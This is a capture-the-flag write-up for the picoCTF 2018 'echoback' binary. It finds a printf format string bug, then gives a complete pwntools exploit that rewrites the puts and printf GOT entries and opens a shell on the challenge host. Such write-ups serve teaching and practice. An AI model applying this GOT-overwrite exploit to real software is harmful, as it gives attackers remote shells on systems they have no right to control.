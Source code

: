 Fist I run checksec to see the protections

![image1](/images/picoctf2018-echoback/echoback1.png)

Now I'll open the binary with IDA to see the functions and the assembly, the main function:

![image2](/images/picoctf2018-echoback/echoback2.png)

This function calls `vuln`

![image3](/images/picoctf2018-echoback/echoback3.png)

This takes 0x7f as input and prints it with the `printf` function, this is vulnerable to format strings vulnerability

```bash
$ ./echoback 
input your message:
%x%x%x
ff8af7bc7ff7da43aa


Thanks for sending the message!
```

Now to get the flag you have to overwrite the GOT puts with vuln address, and the GOT printf with the plt system address

![image4](/images/picoctf2018-echoback/echoback4.png)

The final exploit is like this:

```python
from pwn import *

p = remote("2018shell2.picoctf.com", 56800)
#p = process("./echoback")
elf = ELF("./echoback")

puts = elf.got['puts']
printf = elf.got['printf']
system = elf.plt['system']
vuln = 0x080485e7

payload = fmtstr_payload(7,{puts:vuln,printf:system})

p.sendline(payload)
p.sendline("/bin/sh")
p.interactive()
```
